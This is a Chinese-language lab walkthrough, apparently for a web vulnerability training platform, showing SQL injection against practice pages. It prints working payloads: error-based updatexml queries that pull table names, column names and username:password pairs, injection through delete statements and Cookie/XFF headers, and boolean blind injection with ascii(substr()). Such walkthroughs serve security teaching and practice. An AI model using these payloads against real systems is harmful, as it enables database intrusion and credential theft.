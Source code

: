 先尝试它的闭合方式，我们这里尝试用`'`去进行闭合。

```sql
kobe' or updatexml(1,concat(0x7e,database()),0) or '
```

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/pkc39.png)

之后的payload基本就是去拿表结构，字段名，账号密码。

```sql
 ' or updatexml(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,31),0x7e),1) or '
 ' or updatexml(1,concat(0x7e,substr((select group_concat(column_name) from information_schema.columns where table_name="users"),1,31),0x7e),1) or '
 ' or updatexml(1,concat(0x7e,substr((select group_concat(username,':',password) from users),1,31),0x7e),1) or '
```

### "delete"注入

同上，payload：

```sql
id=1 or updatexml(1,concat(0x7e,database()),0)
```

### "http header"注入

在COOKIE里进行注入，操作同上，只是位置不同，直接在bp中抓包修改即可，注入的方法都一样，类似的还有XFF注入。

### 基于boolian的盲注

**盲注，即无数据回显，不能看到返回的数据，需要利用其他方式判断（布尔 or 延时）**

payload为：`lili' and 1=1#`返回正常信息，说明为字符型的盲注。

以下引用自：https://blog.csdn.net/2301_79595769/article/details/144663938

> 我们可以先用 length(database()) 判断 数据库名称的长度
>
> kobe' and length(database())>5#
>
> 。。。
>
> kobe' and length(database())=7#
>
> 回显正确页面，继续
>
> 再用 substr() 和 ascii() 判断数据库由哪些字母组成（可以用二分法）
>
> kobe' and ascii(substr(database(), 1, 1)) > 113#
>
> kobe' and ascii(substr(database(), 1, 1)) > 105#
>
> 。。。
>
> kobe' and ascii(substr(database(), 1, 1)) = 112#
>
> 不断重复，然后取得数据库名。再和 information_schema 和 length 猜测 表名 的长度，我们可以用下面的 SQL 语句替代上面的 database()
